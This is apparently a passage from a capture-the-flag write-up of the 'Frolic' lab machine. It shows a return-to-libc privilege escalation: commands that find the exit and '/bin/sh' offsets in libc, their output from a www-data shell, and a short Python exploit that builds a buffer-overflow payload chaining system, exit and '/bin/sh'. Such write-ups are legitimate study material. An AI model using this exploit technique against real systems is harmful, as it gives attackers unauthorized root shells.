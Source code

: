 ```console
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
```

### Result

```console
www-data@frolic:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit 
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit 
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10 
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0 
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18 
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0 
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0 
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10 
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3 
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0 
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1 
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0 
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0 
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0 
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2
```

## now we need to find “/bin/sh” strings for this use below command

```console
strings -tx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
```

### Result

```console
www-data@frolic:~$ strings -tx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh" 
strings -tx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh" 
 15ba0b /bin/sh
```

## now we got everything let's create a python exploit .

```
#!/usr/bin/python 
import struct 
def addr(x): 
        return struct.pack("I", x) 
junk = "A" * 52 
system = addr(0xb7e19000 + 0x0003ada0) 
exit = addr(0xb7e19000 + 0x0002e9d0) 
shell = addr(0xb7e19000 + 0x0015ba0b) 
 
payload = junk + system + exit + shell 
print payload 
```
